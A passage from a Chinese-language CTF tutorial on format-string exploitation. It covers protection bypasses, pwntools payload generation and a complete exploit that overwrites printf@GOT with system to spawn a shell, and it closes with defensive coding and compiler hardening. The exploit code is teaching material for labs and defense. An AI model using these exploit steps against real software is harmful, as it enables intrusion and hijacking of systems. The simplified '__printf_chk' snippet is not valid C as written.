当输入缓冲区在堆上时，栈上的数据布局不同，偏移量需要重新确定。此外，堆地址通常包含 `\x00` 字节（尤其是在 64 位系统上），这使得 payload 构造更加复杂。

```python
# 堆上的格式化字符串漏洞
# 偏移量通常很大（堆地址不在栈上，需要通过栈上的指针链间接访问）
# 需要大量 %x 来找到堆上的输入
```

### 5.4 一次性的格式化字符串（不能循环利用）

有些程序只允许一次 `printf` 调用，之后就退出。这要求 payload 一次性完成所有操作（泄露 + 写入），或者分两阶段利用（先泄露，再利用）。

**策略**：
- 第一次调用：泄露 libc 地址和栈地址
- 程序退出或循环后，第二次调用：执行写入
- 如果只有一次机会：利用 `printf` 的返回值传递信息，或者使用 blind write（盲写，不验证直接覆写）

## 6 防护机制与绕过

### 6.1 RELRO（重定位只读）

RELRO 保护 GOT 表不被修改：

| 保护级别 | 效果 | 绕过方法 |
|---------|------|---------|
| No RELRO | GOT 表可读写 | 直接覆写 GOT 表项 |
| Partial RELRO | GOT 表可写（但 .got.plt 之外的段只读） | 仍然可以覆写 .got.plt 中的函数指针 |
| Full RELRO | GOT 表完全只读 | 不能覆写 GOT，需要选择其他目标 |

Full RELRO 的绕过：
- 覆写 `.fini_array`（程序退出时调用的函数数组）
- 覆写 `__malloc_hook` / `__free_hook`（glibc < 2.26）
- 覆写 `__IO_helper_jumps` 等 vtable 指针
- 覆写栈上的返回地址（如果栈布局已知）
- 覆写 `stdout` / `stderr` 结构体（利用 FSOP）

### 6.2 ASLR（地址空间布局随机化）

ASLR 随机化栈、堆、libc、mmap 区域的基地址，但不影响程序自身的代码段（除非有 PIE）。

格式化字符串漏洞天然支持泄露——`%p` 可以泄露栈上的地址，`%s` 可以读取 GOT 表中的已解析地址。因此 ASLR 通常不是障碍。

### 6.3 Stack Canary（栈保护）

格式化字符串漏洞本身不涉及栈溢出，因此 **Stack Canary 对格式化字符串漏洞没有直接防护效果**。但 Canary 可以防止栈溢出 + 格式化字符串的组合利用中的栈溢出部分。

### 6.4 PIE（位置无关可执行文件）

PIE 随机化程序代码段的基地址。格式化字符串漏洞可以通过 `%p` 泄露代码段地址（如果栈上有代码地址），或者通过 `%s` 读取 GOT 表（GOT 表的相对偏移在编译时固定，但绝对地址需要知道 PIE 基址）。

### 6.5 FORTIFY_SOURCE

`-D_FORTIFY_SOURCE=2` 会在编译时检查 `printf` 的格式字符串是否为常量字符串。如果是用户可控的字符串传入 `printf`，编译器会发出警告（`warning: format not a string literal and no format arguments`）。

但这只是编译时警告，不是运行时检查。如果程序仍然编译通过（使用 `-Wno-format-security` 或忽略警告），漏洞仍然存在。

glibc 的 `__printf_chk`（FORTIFY_SOURCE 启用时的 printf 变体）会检查格式字符串中是否有 `%n`，如果有且格式字符串不在只读段中，会直接终止程序。这是一个有效的防护：

```c
// __printf_chk 的检查逻辑（简化）
if (strchr(format, '%n') && !is_readonly(format)) {
    __fortify_fail("*** %n in writable segment detected ***");
}
```

绕过方法：
- 使用不在只读段中的格式字符串（如通过环境变量、文件间接传递）
- 使用 `%c` 配合大宽度来间接控制写入值（但 `%n` 本身仍然被检测）
- 在某些 glibc 版本中，只检查 `%n`，不检查 `%hn` 和 `%hhn`

### 6.6 格式化字符串保护总结

| 保护 | 对格式化字符串的影响 | 绕过难度 |
|------|---------------------|---------|
| No RELRO + No PIE | GOT 覆写 + 任意读写 | 简单 |
| Partial RELRO + PIE | 需要先泄露 PIE 基址 | 中等 |
| Full RELRO | GOT 不可写，需要替代目标 | 中等偏难 |
| FORTIFY_SOURCE | `%n` 被检测 | 中等偏难 |
| ASLR | 需要泄露地址 | 简单（天然支持泄露） |
| Stack Canary | 不影响格式化字符串 | 无影响 |

## 7 高级技巧

### 7.1 Blind Format String（盲格式化字符串）

当无法直接看到 `printf` 的输出时（如程序将输出写入日志文件而非标准输出），可以使用盲写技术：

```python
# 场景：printf 的输出不可见，但可以触发程序的不同行为
# 目标：覆写某个变量来改变程序行为

# 方法：不依赖泄露，直接盲写
# 通过观察程序行为变化来推断写入是否成功

# 步骤：
# 1. 假设偏移量（通常需要猜测或通过其他方式确定）
# 2. 构造盲写 payload
# 3. 如果程序行为改变，说明写入成功
# 4. 如果没有改变，调整偏移量重试

# 盲写利用 %hn 逐字节写入，每字节最多 256 次尝试
# 对于 4 字节地址，最多需要 4 * 256 = 1024 次尝试
```

### 7.2 利用 `printf` 的 `$` 语法做相对偏移写入

```python
# 一次性写入多个值的技巧
# %<val1>c%<off1>$hhn%<val2>c%<off2>$hhn...
# 其中 val2 = target_val2 - target_val1（增量写入）
# 这样可以大幅减少 payload 长度
```

### 7.3 格式化字符串 + ROP

当格式化字符串漏洞只能写入少量字节时，可以只覆写一个关键的函数指针（如 GOT 表中的 `__libc_start_main` 返回地址），然后利用 ROP chain 执行更复杂的操作：

```python
# 格式化字符串漏洞 + ROP 组合
# 步骤一：用格式化字符串泄露 libc 地址
# 步骤二：用格式化字符串覆写 GOT 表项为 gadget 地址
# 步骤三：触发 ROP chain
```

### 7.4 利用 `printf` 的 `%a` 说明符泄露浮点寄存器

在某些场景中，`%a`（十六进制浮点数格式）可以泄露浮点寄存器中的值，这些值可能包含其他函数调用留下的敏感数据：

```python
# %a 可以泄露 xmm 寄存器中的值
# 在某些 x64 实现中，printf 的浮点参数来自 xmm0-xmm7
# 这些寄存器可能包含之前函数调用留下的数据
p.sendline(b'%a.%a.%a.%a')
```

## 8 工具与自动化

### 8.1 pwntools `fmtstr_payload` 参数详解

```python
from pwn import *

# 基本用法
payload = fmtstr_payload(
    offset=7,                          # 输入在栈上的偏移
    writes={0x0804a020: 0xdeadbeef},   # {地址: 值} 字典
    numbwritten=0,                     # printf 之前已打印的字符数
    write_size='byte'                  # 'byte' (%hhn), 'short' (%hn), 'int' (%n)
)

# write_size 的选择：
# 'byte': 最精确，每字节一个 %hhn，payload 最长
# 'short': 每 2 字节一个 %hn，payload 较短
# 'int': 每 4 字节一个 %n，payload 最短，但需要打印大量字符
```

### 8.2 pwntools `FmtStr` 类

```python
from pwn import *

p = process('./vuln')

def send_fmt(payload):
    p.sendline(payload)
    return p.recvuntil(b'\n', timeout=2)

# 自动探测偏移
fmt = FmtStr(execute_fmt=send_fmt)
log.success(f"偏移: {fmt.offset}")

# 写入单个值
fmt.write(0x0804a020, 0xdeadbeef)

# 执行所有待写入
fmt.execute_writes()

# 批量写入
fmt.write(0x0804a020, 0xdeadbeef)
fmt.write(0x0804a024, 0xcafebabe)
fmt.execute_writes()
```

### 8.3 GDB 调试技巧

```bash
# 在 GDB 中设置断点，观察 printf 调用时的栈状态
gdb ./vuln
b printf
r
# 输入 payload
# 查看栈上的数据
x/20gx $rsp
# 查看格式字符串
x/s $rdi
# 单步执行，观察 %n 写入效果
ni
```

### 8.4 one_gadget 查找

```bash
# 安装 one_gadget
gem install one_gadget

# 查找 libc 中的 one_gadget
one_gadget /lib/x86_64-linux-gnu/libc.so.6

# 输出示例：
# 0x45226 execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   rax == NULL
#
# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL
#
# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL
#
# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL
```

## 9 常见错误与调试

### 9.1 偏移量计算错误

**症状**：`fmtstr_payload` 生成的 payload 不工作，写入没有效果。

**诊断**：

```python
# 方法一：手动验证偏移
p.sendline(b'AAAA%7$x')
result = p.recvline()
if b'41414141' in result:
    print("偏移 7 正确")
else:
    print("偏移错误，继续探测")

# 方法二：检查 payload 中的地址是否被正确对齐
payload = fmtstr_payload(7, {0x0804a020: 0x41})
print(f"payload 长度: {len(payload)}")
print(f"payload hex: {payload.hex()}")
# 检查地址 0x0804a020 是否出现在正确的位置
```

### 9.2 地址中的特殊字符

**症状**：payload 被截断或解析错误。

**原因**：地址字节中包含 `\x00`（null）、`\x0a`（换行）、`\x20`（空格）等特殊字符。

**解决**：

```python
def check_addr_safety(addr):
    """检查地址是否包含特殊字符"""
    addr_bytes = p32(addr)
    dangerous = [0x00, 0x0a, 0x0d, 0x20, 0x09]
    for b in addr_bytes:
        if b in dangerous:
            return False
    return True

# 如果地址不安全，可以：
# 1. 使用相对偏移写入（如果目标地址和某个已知地址有固定偏移）
# 2. 换一个目标地址（如选择 GOT 表中另一个函数）
# 3. 使用 %hn 分两次写入，避免特殊字符
```

### 9.3 payload 过长

**症状**：程序缓冲区太小，放不下完整的 payload。

**解决**：

```python
# 方法一：使用 %hn 或 %n 代替 %hhn
payload = fmtstr_payload(offset, {addr: val}, write_size='short')

# 方法二：手动优化 payload 结构
# 将多个写入合并，减少格式说明符数量

# 方法三：分多次输入
# 如果程序循环读取输入，可以分多次完成写入
```

### 9.4 printf 输出被截断

**症状**：某些格式说明符（如 `%s`）触发了 SIGSEGV。

**原因**：`%s` 会将栈上的值作为地址去读取，如果该值不是有效地址，就会崩溃。

**解决**：在使用 `%s` 之前，先用 `%p` 或 `%x` 确认栈上的值是否可控。

## 10 完整利用示例：从零到 Shell

下面是一个完整的 CTF 题目利用示例，涵盖了从分析到 getshell 的全过程：

```c
// challenge.c — CTF 题目源码
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void vuln() {
    char buf[128];
    printf("请输入你的名字: ");
    fgets(buf, sizeof(buf), stdin);
    printf("你好, ");
    printf(buf);  // 格式化字符串漏洞
    printf("\n");
}

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);
    
    while (1) {
        vuln();
    }
    return 0;
}

// 编译: gcc -o challenge challenge.c -no-pie -fno-stack-protector
// 注意: Partial RELRO，GOT 表可写
```

完整 exploit：

```python
#!/usr/bin/env python3
from pwn import *

# ============ 配置 ============
context.arch = 'i386'
context.log_level = 'info'

elf = ELF('./challenge')

# ============ 连接 ============
if args.REMOTE:
    p = remote('challenge.example.com', 1337)
else:
    p = process('./challenge')

# ============ 第一步：确定偏移 ============
log.info("步骤一：确定格式化字符串偏移量")

def send_fmt(payload):
    p.sendline(payload)
    return p.recvline()

# 手动探测
for i in range(1, 30):
    p.sendline(f'AAAA%{i}$x'.encode())
    result = p.recvline()
    if b'41414141' in result:
        offset = i
        log.success(f"偏移量: {offset}")
        break
else:
    log.error("未找到偏移量")
    exit(1)

# ============ 第二步：泄露 libc 地址 ============
log.info("步骤二：泄露 libc 基地址")

# puts 在程序中被调用过（通过 puts@plt），GOT 表项已填入 libc 地址
puts_got = elf.got['puts']
log.info(f"puts@GOT: {hex(puts_got)}")

# 使用 %s 读取 GOT 表项
# 地址放在 payload 开头（32 位地址不含 null）
payload = p32(puts_got) + f'%{offset}$s'.encode()
p.sendline(payload)
p.recvuntil(p32(puts_got))
puts_addr = u32(p.recv(4))
log.success(f"puts@libc: {hex(puts_addr)}")

# 计算 libc 基地址
# 使用 libcdb 自动查找匹配的 libc
from pwnlib.libcdb import search_by_symbol_offsets
libc_info = search_by_symbol_offsets({'puts': puts_addr}, select_index=0)
if libc_info:
    libc = ELF(libc_info)
else:
    # 如果自动查找失败，手动指定 libc
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')

libc.address = puts_addr - libc.symbols['puts']
log.success(f"libc 基地址: {hex(libc.address)}")

system_addr = libc.symbols['system']
log.success(f"system@libc: {hex(system_addr)}")

# ============ 第三步：覆写 GOT 表 ============
log.info("步骤三：覆写 printf@GOT 为 system")

printf_got = elf.got['printf']
log.info(f"printf@GOT: {hex(printf_got)}")
log.info(f"目标值: {hex(system_addr)}")

# 使用 fmtstr_payload 自动生成 payload
payload = fmtstr_payload(offset, {printf_got: system_addr})
log.info(f"payload 长度: {len(payload)} 字节")

p.sendline(payload)
p.recvline()  # 消耗输出

# ============ 第四步：触发 system("/bin/sh") ============
log.info("步骤四：触发 system('/bin/sh')")

# 程序会再次调用 printf(buf)
# 此时 printf@GOT 指向 system
# 所以 printf(buf) 实际上是 system(buf)
p.sendline(b'/bin/sh\x00')

log.success("已获取 shell！")
p.interactive()
```

## 11 防御与最佳实践

### 11.1 源码层面的防御

```c
// 错误示例
printf(user_input);

// 正确示例 1：使用格式化字符串
printf("%s", user_input);

// 正确示例 2：使用 puts（不需要格式化字符串）
puts(user_input);

// 正确示例 3：使用 snprintf 限制长度
snprintf(buf, sizeof(buf), "%s", user_input);
```

### 11.2 编译时防御

```bash
# 启用所有保护
gcc -o program program.c \
    -D_FORTIFY_SOURCE=2 \
    -fstack-protector-strong \
    -pie -fPIE \
    -Wl,-z,relro,-z,now \
    -Wformat -Wformat-security -Werror=format-security

# FORTIFY_SOURCE=2 会检测 %n 在可写段中的使用
# -Werror=format-security 会将格式化字符串警告提升为编译错误
```

### 11.3 运行时防御

- **ASLR**：增加地址泄露的难度，但不能根本阻止格式化字符串漏洞的利用
- **Full RELRO**：阻止 GOT 表覆写，但不能阻止其他写入目标
- **glibc 的 `__printf_chk`**：检测 `%n` 在可写段中的使用，是最有效的运行时防护之一

### 11.4 代码审计要点

在代码审计中，以下模式是格式化字符串漏洞的高风险信号：

```c
// 高风险模式 1：用户输入直接作为格式字符串
printf(buf);
fprintf(stderr, user_input);
sprintf(log_buf, request);

// 高风险模式 2：通过中间变量传递
char *msg = get_user_input();
log(msg);

// 高风险模式 3：包装函数中的间接使用
void my_log(const char *fmt, ...) {
    // fmt 来自用户输入
    vprintf(fmt, ap);  // 风险！
}

// 低风险（但仍需注意）：间接使用
char format[64];
snprintf(format, sizeof(format), "%s", user_input);
printf(format, 123);  // 如果 format 受控，仍有风险
```

## 12 小结

格式化字符串漏洞利用的核心能力可以归结为三个：

1. **栈读取**：通过 `%x` / `%p` 泄露栈上的敏感数据（返回地址、栈帧指针、libc 地址等）
2. **任意地址读取**：通过 `%s` 将栈上的值作为指针，解引用读取任意地址处的内容
3. **任意地址写入**：通过 `%n` / `%hn` / `%hhn` 向栈上的值所指向的地址写入数据

这三种能力组合起来，就能实现：泄露 libc 基地址 → 覆写 GOT 表 → 劫持控制流 → 执行 `system("/bin/sh")` 的完整攻击链。

在实际利用中，关键步骤是：
1. **确定偏移量**——找到输入缓冲区在栈上的位置
2. **泄露地址**——获取 libc 基地址或代码基地址
3. **精确写入**——使用 `fmtstr_payload` 自动生成 payload
4. **触发执行**——让程序调用被覆写的函数指针

掌握这些技术后，面对任何格式化字符串漏洞，都能快速分析并编写出有效的 exploit。
